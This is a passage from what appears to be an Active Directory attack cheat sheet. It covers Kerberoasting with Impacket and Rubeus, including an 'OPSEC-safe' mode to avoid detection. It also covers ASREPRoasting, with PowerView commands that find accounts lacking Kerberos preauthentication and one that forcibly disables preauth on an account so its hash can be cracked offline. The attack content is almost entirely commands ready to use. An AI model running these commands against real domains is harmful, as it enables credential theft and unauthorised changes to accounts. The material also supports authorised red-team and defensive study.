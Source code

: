 #### Using Impacket:

```text
python GetUserSPNs.py $DomainName/$DomainUser:$Password -outputfile $Out_File
```

#### Using Rubeus:

```text
#Kerberoasting and outputing on a file with a spesific format
Rubeus.exe kerberoast /outfile:$Out_File /domain:$DomainName

#Kerberoasting whle being "OPSEC" safe, essentially while not try to roast AES enabled accounts
Rubeus.exe kerberoast /outfile:$Out_File /domain:$DomainName /rc4opsec

#Kerberoast AES enabled accounts
Rubeus.exe kerberoast /outfile:$Out_File /domain:$DomainName /aes
 
#Kerberoast spesific user account
Rubeus.exe kerberoast /outfile:$Out_File /domain:$DomainName /user:$UserName /simple

#Kerberoast by specifying the authentication credentials 
Rubeus.exe kerberoast /outfile:$Out_File /domain:$DomainName /creduser:$UserName> /credpassword:$Password>
```

### ASREPRoast

_If a domain user account do not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted  
blob and bruteforce it offline._

* PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
* AD Module: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`

Forcefully Disable Kerberos Preauth on an account I have Write permissions or more! Check for interesting permissions on accounts:

{% hint style="info" %}
We add a filter \(e.g. RDPUsers\) to get "User Accounts" not Machine Accounts, because Machine Account hashes are not crackable!
{% endhint %}

#### Using PowerView:

```text
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
Disable Kerberos Preauth:
Set-DomainObject -Identity $UserAccount -XOR @{useraccountcontrol=4194304} -Verbose
Check if the value changed:
Get-DomainUser -PreauthNotRequired -Verbose
```

And finally execute the attack using the [ASREPRoast](https://github.com/HarmJ0y/ASREPRoast) tool.
